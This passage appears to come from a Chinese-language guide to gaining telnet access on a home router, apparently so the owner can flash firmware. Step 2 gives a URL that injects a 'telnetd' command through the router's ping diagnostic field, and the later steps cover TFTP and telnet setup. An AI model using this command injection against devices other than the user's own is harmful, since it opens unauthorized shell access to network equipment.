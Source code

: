 ## 2.在浏览器地址栏输入：http://192.168.2.1/goform/Diagnosis?pingAddr=192.168.2.100|echo""|telnetd
(如果你的电脑ip不是192.168.2.100,请改成你电脑的ip(内网ip))



## 3.打开tftp，这里用tftp32演示，按图设置
![tftpK1Setting](/images/uploads/4674614a7378516c3065717674556957537965585055476450475276.png)

## 4.打开CMD,务必使用管理员权限，telnet 192.168.2.1
![cmdK1Serting](/images/uploads/466a553931775a374b5749716b624637724e446871385a384d684343.png)
